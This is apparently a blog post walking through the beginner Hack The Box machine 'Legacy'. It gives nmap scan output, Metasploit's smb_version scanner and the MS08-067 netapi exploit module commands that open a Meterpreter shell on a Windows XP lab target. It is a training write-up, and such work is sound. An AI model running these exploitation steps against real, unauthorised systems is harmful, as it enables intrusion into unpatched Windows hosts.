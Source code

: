 ```yaml
---
title: Legacy
date: 2020-05-04 19:16:00
description: HTB Walkthrough
featured_image: '/images/blog/legacy/legacy.jpg'
categories: htb
---
```


Legacy is also one of the first machines released on Hack The Box (HTB) and aimed for beginners. It is a Windows box that is vulnerable to SMB bugs and I'll be using Metasploit to exploit them.

## Hack The Box
 
* Operating System: Windows
* Difficulty: Easy


## Enumeration

Let's start with enumeration by using nmap. As always, I like to use:

<img src="/images/blog/legacy/ipaddress.jpg" alt="nmap scan">

	PORT     STATE  SERVICE       VERSION
	139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
	445/tcp  open   microsoft-ds  Windows XP microsoft-ds
	3389/tcp closed ms-wbt-server
	Device type: general purpose|specialized
	Running (JUST GUESSING): Microsoft Windows XP|2003|2000|2008 (94%), General Dynamics embedded (87%)
	OS CPE: cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_2000::sp4 cpe:/o:microsoft:windows_server_2008::sp2
	Aggressive OS guesses: Microsoft Windows XP SP3 (94%), Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows XP (92%), Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows XP SP2 or Windows Server 2003 (90%), Microsoft Windows 2000 SP4 (90%), Microsoft Windows XP SP2 or SP3 (90%), Microsoft Windows 2000 SP4 or Windows XP SP2 or SP3 (90%), Microsoft Windows 2003 SP2 (89%), Microsoft Windows XP SP2 (89%)
	No exact OS matches for host (test conditions non-ideal).
	Network Distance: 2 hops
	Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

	Host script results:
	|_clock-skew: mean: 5d00h30m01s, deviation: 2h07m16s, median: 4d23h00m01s
	|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:34:e8 (VMware)
	| smb-os-discovery: 
	|   OS: Windows XP (Windows 2000 LAN Manager)
	|   OS CPE: cpe:/o:microsoft:windows_xp::-
	|   Computer name: legacy
	|   NetBIOS computer name: LEGACY\x00
	|   Workgroup: HTB\x00
	|_  System time: 2020-05-24T02:40:58+03:00
	| smb-security-mode: 
	|   account_used: <blank>
	|   authentication_level: user
	|   challenge_response: supported
	|_  message_signing: disabled (dangerous, but default)
	|_smb2-time: Protocol negotiation failed (SMB2)


It looks like we have port 139 and 445 open, and based on the nmap scan, we might have also found the SMB OS, *Windows XP*. Before we exploit this box, let's verify that the OS is the right one by using one of Metasploit's auxiliary modules.

### SMB Information

To open up Meatsploit whilst in the command line interface, type in:

`msfconsole`

Once Metasploit opens, we can use Metasploit's auxiliary module, smb_version. There are a lot of auxiliary modules, so if you're not sure which one to use, we can search for it by typing in Metasploit: 

`search smb_version`

<img src="/images/blog/legacy/smbversion.jpg" alt="smb version">

From the search results, we can see that there is an auxiliary module called smb_version. To use it, we can type in Metasploit:

`use auxiliary/scanner/smb/smb_version`

As always, I like to see what options I have when I use a Metasploit module by typing in `options`. After taking a look at the options, I set the following: 

* `rhosts`: The IP address of the Legacy box.
* `target`: To see if there are any targets to set--in this case, there is none.
* `run`: To run the auxiliary module.

<img src="/images/blog/legacy/auxiliary.jpg" alt="auxiliary scan">

Perfect! Based on the results above, the box is currently running *Windows XP SP3*. Now that we have confirmed the OS that the SMB is on, let's look for any existing exploits.

In the last box (Lame), we used Metasploit's search feature to find an exploit. This time to make it interesting, we can use Google search. I normally like to look for results from Rapid7 (which is the same as Metasploit) or Exploit-db.

After searching <i>Windows XP SP3 exploit</i> in Google search, I came across this one from Rapid 7:

<a href="https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi">MS08-067 Microsoft Server Service Relative Path Stack Corruption</a>

Here's what it says on the exploit's description:

<i>This module exploits a parsing flaw in the path canonicalization code of NetAPI32.dll through the Server Service. This module is capable of bypassing NX on some operating systems/service packs.</i>

This exploit looks promising, so let's try using it.

## Exploitation

To use the exploit that we found, we can follow the instructions found in the above link and type in:

`use exploit/windows/smb/ms08_067_netapi`

Again, let's take a look at our options by typing in `options`. 


<img src="/images/blog/legacy/exploit.jpg" alt="preparing exploit">

In this case, I set the rhost to the IP address of the box, 10.10.10.4, by typing in:

`set rhosts 10.10.10.4`

And that's it, let's try running the exploit!

<img src="/images/blog/legacy/runexploit.jpg" alt="exploit results">

It worked! We now have a Meterpreter session. Meaning, we have access to the box. We can type in:


* `getuid`: To see what access level we have.
* `pwd`: To check which directory we're currently in.
 

Since we have root access, we can type in `shell` to that we have access to the command line and locate the root.txt and user.txt file.

And that's it! We've now completed the Legacy box.

## Conclusion

This goes to show that once you find a port open, in this case, SMB, always enumerate to find out what OS version the service is running. Once you know the version, it'll be easier to find out what the system is vulnerable to and where to look when it comes to finding exploits. 